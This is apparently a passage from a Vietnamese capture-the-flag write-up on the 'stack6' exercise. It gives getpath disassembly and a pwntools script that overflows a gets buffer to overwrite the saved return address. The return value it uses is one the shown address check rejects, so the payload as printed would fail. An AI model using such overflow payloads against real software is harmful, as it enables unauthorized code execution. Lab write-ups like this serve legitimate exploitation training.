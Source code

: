 ```
   0x0000000000400649 <+50>:	call   0x400510 <gets@plt>
   0x000000000040064e <+55>:	mov    rax,QWORD PTR [rbp+0x8]
   0x0000000000400652 <+59>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400655 <+62>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400658 <+65>:	and    eax,0xbf000000
   0x000000000040065d <+70>:	cmp    eax,0xbf000000
   0x0000000000400662 <+75>:	jne    0x400682 <getpath+107>
   0x0000000000400664 <+77>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400667 <+80>:	mov    esi,eax
   0x0000000000400669 <+82>:	mov    edi,0x400758
   0x000000000040066e <+87>:	mov    eax,0x0
   0x0000000000400673 <+92>:	call   0x4004f0 <printf@plt>
   0x0000000000400678 <+97>:	mov    edi,0x1
   0x000000000040067d <+102>:	call   0x4004e0 <_exit@plt>
   0x0000000000400682 <+107>:	lea    rax,[rbp-0x50]
   0x0000000000400686 <+111>:	mov    rsi,rax
   0x0000000000400689 <+114>:	mov    edi,0x400764
   0x000000000040068e <+119>:	mov    eax,0x0
   0x0000000000400693 <+124>:	call   0x4004f0 <printf@plt>
   0x0000000000400698 <+129>:	nop
   0x0000000000400699 <+130>:	leave  
   0x000000000040069a <+131>:	ret    
```
Dựa vào code ASM thì chúng ta thấy buffer ở vị trí [rbp-0x50] có nghĩa là chúng ta sẽ dùng 0x50 bytes để đè lên buffer và ret , sau đó là 0x8 bytes để đè lên old rbp và sau đó sẽ là giá trị mà chúng ta nhảy về là ret.

Mình viết một payload như sau:
```
from pwn import* 

BIN = "./stack6"
DEBUG = 1 

ret = 0xbf000000

def exploit():
	payload = b"A"*0x50 + b"B"*0x8 + p64(ret)

	_breakpoint = """
		0x0000000000400649
	"""
	gdb.attach(io,_breakpoint)
	io.sendline(payload)
	io.recv()
	io.interactive()


io = process(BIN)
context.log_level = 'debug'

exploit()
```
